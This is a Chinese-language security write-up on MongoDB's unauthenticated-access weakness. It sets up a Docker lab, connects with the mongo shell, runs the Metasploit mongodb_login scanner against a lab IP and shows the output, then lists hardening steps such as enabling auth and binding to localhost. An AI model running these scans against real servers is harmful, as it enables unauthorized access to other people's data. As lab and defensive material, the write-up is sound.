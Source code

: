 # MongoDB未授权访问漏洞

## 漏洞描述

启动MongoDB服务时不添加任何参数时,默认是没有权限验证的,登录的用户可以通过默认端口无需密码对数据库任意操作（增删改高危动作）而且可以远程访问数据库。

## 环境搭建

docker下载mongo镜像

```
docker run  -it  -p  27017:27017 mongo
```

## 漏洞复现

### cli执行

```
┌──(root💀kali)-[~]
└─# mongo 192.168.32.131
MongoDB shell version v5.3.1
connecting to: mongodb://192.168.32.131:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("c7ddf3c3-2fbc-4b5a-b9a4-91dfce9703a2") }
MongoDB server version: 5.0.8
WARNING: shell and server versions do not match

> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB

```

### msf执行

```
msf6 > use auxiliary/scanner/mongodb/mongodb_login
msf6 auxiliary(scanner/mongodb/mongodb_login) > set rhosts 192.168.32.131
rhosts => 192.168.32.131
msf6 auxiliary(scanner/mongodb/mongodb_login) > run

[*] 192.168.32.131:27017 - Scanning IP: 192.168.32.131
[+] 192.168.32.131:27017 - Mongo server 192.168.32.131 doesn't use authentication
[*] 192.168.32.131:27017 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## 修复建议

**(1).新建管理账户开启MongoDB授权**
新建终端[参数默认可以不加，若有自定义参数，才要加上，下同]
`mongod --port 27017 --dbpath /data/db1`

另起一个终端，运行下列命令

```
  use admin

  db.createUser(
    {
      user: "adminUser",
      pwd: "adminPass",
      roles: [ { role: "userAdminAnyDatabase", db: "admin" } ]
    }
  )
```

![image-20220519143515018](../../.gitbook/assets/image-20220519143515018.png)

管理员创建成功，现在拥有了用户管理员 用户名:`adminUser` 密码:`adminPass`

**(2).本地访问**

```
bind 127.0.0.1
```

**(3).修改默认端口**
修改默认的mongoDB端口(默认为: TCP 27017)为其他端口

**(4).禁用HTTP和REST端口**
MongoDB自身带有一个HTTP服务和并支持REST接口。在2.6以后这些接口默认是关闭的。mongoDB默认会使用默认端口监听web服务，一般不需要通过web方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择–nohttpinterface 参数`nohttpinterface = false`
**(5).开启日志审计功能**
审计功能可以用来记录用户对数据库的所有相关操作。这些记录可以让系统管理员在需要的时候分析数据库在什么时段发生了什么事情
**(6).开启auth认证**

```
/etc/mongodb.conf　　
auth = true
```